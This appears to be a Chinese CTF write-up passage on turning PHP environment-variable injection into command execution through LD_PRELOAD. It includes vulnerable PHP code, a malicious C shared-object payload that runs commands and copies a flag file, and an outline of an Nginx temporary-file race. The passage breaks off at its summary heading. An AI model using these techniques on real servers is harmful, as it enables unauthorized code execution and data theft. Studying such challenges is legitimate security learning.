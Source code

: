     ```php
    //题目代码
    <?php
    foreach($_REQUEST['envs'] as $key => $val) {
        putenv("{$key}={$val}");//设置环境变量
    }
    //... 一些其他代码
    system('echo hello');
    ?>
    ```

    *   **有上传点时**

        直接上传个so文件，如hack.so，再通过`LD_PRELOAD=/var/www/html/uploads/hack.so`,来优先加载我们编写的恶意动态链接库

        如2022虎符ctf的ezphp   wp中c文件

        题目可以在https://www.wolai.com/4X2FgV1HkxcBYBRZT31T4F中的文件复现

        ```c
        #include <stdlib.h>
        #include <stdio.h>
        #include <string.h>
        
        __attribute__ ((__constructor__)) void preload (void){
          unsetenv("LD_PRELOAD");
          system("id");
          system("cat /flag > /var/www/html/flag");
        }
        ```

    *   **无上传点**

        *   **Nginx利用**

            Nginx对于请求的body内容会以临时文件的形式存储起来

            大概思路是：

            -   请求一个过大的body，会在/proc/self/fd目录下生成临时文件
            -   传一个填满大量脏数据的so文件
            -   竞争LD_PRELOAD包含 proc 目录下的临时文件(也可以通过python，pwn包中的time.sleep(60)，来保持连接，使临时文件不被删除)

        *   **可以修改默认扩展目录的so文件**

            如`/php/74/lib/php/extensions/no-debug-non-zts-2019090`

        *   **system的命令执行**

            详细见[p牛的环境变量注入](https://tttang.com/archive/1450/)

            php中调用system本质上是调用了`sh -c`

            在不同操作系统中：

            -   debian：sh→dash
            -   centos：sh→bash

            总结：

